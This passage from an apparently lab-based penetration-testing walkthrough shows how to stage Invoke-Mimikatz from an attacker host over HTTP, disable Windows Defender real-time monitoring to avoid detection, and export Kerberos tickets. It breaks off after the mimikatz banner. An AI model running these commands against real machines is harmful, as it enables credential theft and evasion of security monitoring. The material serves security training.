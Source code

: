 #### ii. Export krbtgt tickets using Invoke-Mimikatz:

1. Download the exploit to the local machine (KALI-WINDOWS):
   ```powershell
   git clone https://github.com/samratashok/nishang

   cd .\nishang\Gather
   ```

2. Upload __Invoke-Mimikatz.powershell__ to the remote machine (MSEDGEWIN10):
   - LOCAL MACHINE (KALI-WINDOWS):
     ```sh
     python -m SimpleHTTPServer
     ```
   - PSSession (MSEDGEWIN10):
     ```powershell
     cd $home\Desktop

     Invoke-WebRequest -uri http://192.168.150.1:8000/Invoke-Mimikatz.powershell -OutFile Invoke-Mimikatz.powershell
     ```

3. Use dot source to import  __Invoke-Mimikatz__:
   - PSSession (MSEDGEWIN10):
     ```
     Set-MpPreference -DisableRealtimeMonitoring $true

     . .\Invoke-Mimikatz.powershell
     ```
     - `-DisableRealtimeMonitoring $true` prevents the remote machine from detecting __Invoke-Mimikatz.powershell__ as a malicious script
      
   <span></span>

4. Export __*krbtgt tickets*__ using Invoke-Mimikatz:
   - PSSession (MSEDGEWIN10):
     ```powershell
     mkdir tickets

     cd tickets

     Invoke-Mimikatz -command '"sekurlsa::tickets /export"'
     ```
     ```
       .#####.   mimikatz 2.2.0 (x64) #18362 May 30 2019 09:58:36
      .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
      ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
      ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
      '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
       '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

     mimikatz(powershell) # sekurlsa::tickets /export
